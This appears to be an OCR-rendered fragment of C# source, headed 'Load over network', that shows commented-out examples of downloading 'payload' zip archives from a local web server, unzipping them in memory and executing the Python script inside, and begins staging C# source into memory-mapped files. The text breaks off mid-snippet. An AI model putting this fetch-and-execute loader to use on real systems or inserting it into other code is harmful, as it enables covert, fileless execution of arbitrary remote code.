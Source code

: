 
# Load over newtwork

```csharp
/* Example: Load Python scripts over network, Unzip in memory and run


                        WebClient wc = new WebClient();
                        Console.WriteLine("Getting IPY payloads ...");
                        byte[] scriptzip = wc.DownloadData(@"http://127.0.0.1:8000/ippayloads.zip");


                        // Load network bytes into memory stream and unzip in memory.
                        Stream zipdata = new MemoryStream(scriptzip);
                        Stream unzippedDataStream;
                        ZipArchive archive = new ZipArchive(zipdata, ZipArchiveMode.Read);

                        foreach (ZipArchiveEntry entry in archive.Entries)
                        {

                            if (entry.FullName == @"ppt.py")
                            {
                                Console.WriteLine("Unzipped File: {0}", entry.Name);
                                unzippedDataStream = entry.Open();

                                StreamReader reader = new StreamReader(unzippedDataStream);
                                string codeText = reader.ReadToEnd();
                                pythonScript = pengine.CreateScriptSourceFromString(codeText);
                                Console.WriteLine("Executing Source >>>  {0} <<< ...", codeText.Substring(0,
                                                                    (codeText.Length >= 80) ? 79 : codeText.Length));
                                pythonScript.Execute();
                            }

                        }
            */



            /*
            WebClient wc = new WebClient();
            Console.WriteLine("Getting C# Code payloads ...");
            byte[] dllzip = wc.DownloadData(@"http://127.0.0.1:8000/InteropUtil.zip");

            Dictionary<String, MemoryMappedFile> mmfRepo = new Dictionary<String, MemoryMappedFile>();

            // Load network bytes into memory stream and unzip in memory.
            Stream dllzipdata = new MemoryStream(dllzip);
            ZipArchive dllarchive = new ZipArchive(dllzipdata, ZipArchiveMode.Read);

            Stream unzippedCSDataStream;
            MemoryMappedFile mmf;
            foreach (ZipArchiveEntry entry in dllarchive.Entries)
            {
                if (entry.Name == @"InteropUtil.cs")
                {
                    Console.WriteLine("Unzipped CSharp: {0}", entry.Name);
                    unzippedCSDataStream = entry.Open();
                    // Prepare Memory Map for file
                    mmf = MemoryMappedFile.CreateNew(entry.Name, entry.Length);
```
